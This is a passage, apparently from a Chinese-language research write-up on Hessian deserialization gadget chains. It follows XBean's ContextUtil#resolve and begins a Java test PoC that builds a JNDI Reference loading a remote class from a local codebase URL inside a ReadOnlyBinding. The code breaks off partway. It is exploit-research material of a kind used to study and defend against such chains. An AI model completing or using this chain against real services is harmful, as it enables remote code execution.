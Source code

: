     ![image-20241018112235519](Hessian/image-20241018112235519.png)
    再跟进 `ContextUtil#resolve()`：
    ![image-20241018112340421](Hessian/image-20241018112340421.png)
    后面就和 Resin 链相同了。
4. 将 Resin 的思路延续下来，尝试构造如下：
    ```java
    @Test
    public void testXBean_HashCrash() throws Exception {
        // 1. 从底向上写 PoC，先完成 ContextUtil$ReadOnlyBinding 的实例化
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        Context ctx = createWithoutConstructor(WritableContext.class);
        ContextUtil.ReadOnlyBinding readOnlyBinding = new ContextUtil.ReadOnlyBinding("EndlessShw", reference, ctx);
    